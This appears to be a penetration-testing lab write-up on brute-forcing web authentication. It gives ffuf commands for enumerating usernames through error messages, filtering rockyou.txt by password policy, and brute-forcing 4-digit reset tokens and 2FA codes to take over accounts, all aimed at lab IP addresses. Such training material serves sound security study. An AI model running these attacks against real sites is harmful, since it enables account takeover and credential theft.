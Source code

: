 # 🏍️ Brute-Force Attacks

## Enumerating Users

User enumeration vulnerabilities arise when a web application responds differently to registered/valid and invalid inputs for authentication endpoints

Let's imagine those 2 errors:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>User does not exist</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>Just a wrong password </p></figcaption></figure>

To enumerate users via error messages, we will use the `xato-net-10-million-usernames.txt`

Let's imagine the following error message:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

we can filter out invalid users by removing responses containing the string `Unknown user`

```shell-session
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

And when we identify a valid user, we can proceed to do bruteforce

_**Enumerate a valid user on the web application. Provide the username as the answer.**_

```
fuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.56.194:35890/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

## Brute-Forcing Passwords

Let's imagine we got password policy going on and we're not sure about lockout policy, we can create wordlists according to the policy from famous wordlists to reduce noise:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
ElFelixi0@htb[/htb]$ grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

Once we got our user or our list of users and our post variable as well as the error messgae, we can start bruteforcing ->

```
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

_**What is the password of the user 'admin'?**_

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

```
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w custom_wordlist.txt -u http://94.237.53.113:46749/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

### Password Reset Tokens

Many web applications implement a password-recovery functionality if a user forgets their password that often utilizes a one-time reset token via SMS or email.

Here is a a basic password reset flow

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

To start exploiting this, let's imagine we created an account on the website and asked for a new password and received this type of email:

```
<SNIP>
paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351
<SNIP>
```

We can see that we get the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values&#x20;

So let's start by making our list of possible tokens:

```shell-session
seq -w 0 9999 > tokens.txt
```

and then launch our attack and all ports, thus attacking every user that is currently resseting their password

```shell-session
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

_**Takeover another user's account on the target system to obtain the flag.**_

```
ffuf -w ./tokens.txt -u http://94.237.50.83:58664/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### 2FA Codes

Generally this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device)

most of the time, it relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS that are typically **only of digits**

Let's say we have a set of credentials and there is 2FA:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

If we capture the request we can see the follwoing:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption><p>only <code>10,000</code> possible variations</p></figcaption></figure>

So let's start by crafting our wordlist, then our payload:

```shell-session
seq -w 0 9999 > tokens.txt
```

We can't forget the error message:&#x20;

```shell-session
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

_**Brute-force the admin user's 2FA code on the target system to obtain the flag.**_

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w tokens.txt -u http://94.237.56.194:54467/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=d3ng2r9pippot860ural3jls64" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
